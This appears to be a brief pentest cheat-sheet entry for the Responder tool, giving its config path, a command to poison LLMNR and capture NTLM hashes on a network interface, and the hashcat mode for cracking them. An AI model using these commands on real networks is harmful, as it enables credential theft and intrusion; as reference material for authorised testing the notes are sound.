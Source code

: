 # responder

## Config file

```bash
/etc/responder/Responder.conf
```

## LLMNR hashes capture

```bash
sudo responder -I INTERACE -rdw [-v]
# hashcat -m 5600
```